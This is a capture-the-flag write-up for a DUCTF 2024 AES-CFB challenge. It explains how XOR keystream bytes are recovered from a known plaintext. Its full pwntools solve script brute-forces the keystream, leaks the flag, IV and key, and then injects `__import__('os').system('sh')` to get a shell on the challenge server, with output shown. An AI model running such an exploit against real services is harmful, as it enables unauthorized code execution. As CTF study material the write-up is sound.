

## Analysis
Looking through the docs on CFB and playing around with it made me realize that the encryption works by $C=E\oplus P$.

```python
print(xor(b'ABC', AES.new(KEY, AES.MODE_CFB, IV, segment_size=128).encrypt(b'ABC')))
print(xor(b'ABCD', AES.new(KEY, AES.MODE_CFB, IV, segment_size=128).encrypt(b'ABCD')))
b'Gq\x18'
b'Gq\x18\x16'
```

Hence with a known plaintext and ciphertext pair, we can obtain the unknown $E$ without knowing IV or Key.

My method is to send random bytes until the server reply with `1`, in that case I would know the ciphertext for `1`. I will add another random byte to the ciphertext until server reply with `11`. You get the point.

I will find the first 4 characters of $E$ by using the $E=C\oplus \text{0b1111}$.



### Solve Script

```python
from pwn import *
from Crypto.Cipher import AES
context.log_level = 'error'
rm = remote('2024.ductf.dev', 30020)
rm.recv()


def send(payload):
    rm.sendline(payload.hex().encode())
    r = rm.recv().strip()[:-4].strip()
    if r == b'invalid ct!':
        return None
    return r


def main():
    e = b''
    p = b''
    expected = 1
    for i in range(4):
        for _ in range(256):
            _p = p + _.to_bytes(1, 'big')
            if send(_p) == str(expected).encode():
                e = xor(_p, str(expected).encode())
                print(f"#{i} found E = {e}")
                p = _p
                expected = expected*10+1
                break
            print('.', end='', flush=True)
    r = send(xor(e, b'FLAG'))
    print(r)
    IV = eval(send(xor(e[:2], b'IV')))
    KEY = eval(send(xor(e[:3], b'KEY')))
    d = AES.new(KEY, AES.MODE_CFB, IV, segment_size=128).encrypt(b"__import__('os').system('sh')")
    rm.sendline(d.hex().encode())
    rm.interactive()


if __name__ == '__main__':
    main()
```

```
......................................................................................................#0 found E = b'W'
..............................................................................................................................................#1 found E = b'W\xbf'
............................................................................................................................................................................................................................#2 found E = b'W\xbf\xed'
........................................................................................................................................................................#3 found E = b'W\xbf\xed\x99'
b'DUCTF{should_have_used_authenticated_encryption!}'
ls
bin
chal
kctf
lib
lib64
usr
cd ~
sh: 2: cd: can't cd to ~
```

Yes, I even added a reverse shell.
